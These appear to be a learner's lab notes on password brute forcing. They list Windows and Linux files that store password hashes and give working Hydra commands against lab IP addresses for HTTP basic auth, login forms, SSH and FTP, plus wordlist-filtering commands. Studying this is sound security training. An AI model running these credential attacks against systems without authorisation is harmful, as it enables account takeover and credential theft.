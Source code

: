 

- list of file that contains hash passwords

| **`Windows`** | **`Linux`** |
| ------------- | ----------- |
| unattend.xml  | shadow      |
| sysprep.inf   | shadow.bak  |
| SAM           | password    |


## Basic HTTP Auth Bruteforcing

### Mechanism
```
          +-----------------+                  +-----------------+
          |      Client     |                  |      Server     |
          +-----------------+                  +-----------------+
                   |                                 |
                   | 1. Initial Request (No Auth)    |
                   |-------------------------------->|
                   |                                 |
                   |                                 | 2. Response with
                   |                                 |    WWW-Authenticate
                   |                                 |    header (realm)
                   |<--------------------------------|
                   |                                 |
                   | 3. Request with                 |
                   |    Authorization header         |
                   |    (Base64-encoded ID:Password) |
                   |-------------------------------->|
                   |                                 |
                   |                                 | 4. Server verifies
                   |                                 |    credentials
                   |                                 |    (if valid, grant access)
                   |                                 |
                   |<--------------------------------|
                   |                                 |
                   | 5. Access Granted /             |
                   |    Requested Resource           |
                   |                                 |
				   |---------------------------------|
```

![[Pasted image 20240611185303.png]]


- If Your wordlist contains `username:password` format use -C flag

| **Options**                        | **Description**               |
| ---------------------------------- | ----------------------------- |
| `-C ftp-betterdefaultpasslist.txt` | Combined Credentials Wordlist |
| `SERVER_IP`                        | Target IP                     |
| `-s PORT`                          | Target Port                   |
| `http-get`                         | Request Method                |
| `/`                                | Target Path                   |


```shell
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```


#### Bruteforce Both Username & Password

```shell
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

`-L` flag for the usernames
`-P` flag for the passwords wordlist
`-u` flag, so that it tries all users on each password


### Bruteforce Username or Password

- specify the known value with lowercase flag , if username is known `-l` or if password is known `-p`

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```

## Web Forms Brute Forcing

- two types of `http` modules  :
	1. `http[s]-{head|get|post}`
	2. `http[s]-post-form`


```shell
/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:[FAIL/SUCCESS]=[success/failed string]
```


 **Fail/Success String**

|**Type**|**Boolean Value**|**Flag**|
|---|---|---|
|`Fail`|FALSE|`F=html_content`|
|`Success`|TRUE|`S=html_content`|

-  pick the login button, as it is fairly safe to assume that there will be no login button after logging in FOR FAIL

```bash
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```


### Determine Login Parameters


##### Using Web Browser

![[Pasted image 20240611191910.png]]
- copy post data


**Using Burpsuite**

![[Pasted image 20240611192038.png]]



- in this case our payload would be

```bash
"/login.php:user=^USER^&pass=^PASS^:F=<form name='login'"
```




```shell
hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f http://94.237.54.201/ -s 50064 http-post-form "/admin_login.php:username=^USER^&password=^PASS^:F=<form name='log-in'"
```


## Personalized Wordlists


- need to collect some information about them


### CUPP
- `Cupp` is very easy to use
- interactive mode using `-i`

- password must meet the following conditions:
	1. 8 characters or longer
	2. contains special characters
	3. contains numbers


```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```




## Service Authentication Brute Forcing

- provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end


```shell
hydra -l b.gates -P /opt/usefull/SecLists/Passwords/Leaked-Databases/rockyou-10.txt -u -f ssh://94.237.54.201:22 -t 4
```

- use this password to login ssh , if ftp is running inside and hydra is installed in victim machine . run hydra
```shell
hydra -l g.potter -P rockyou-30.txt ftp://127.0.0.1
```

if not port forward to local machine




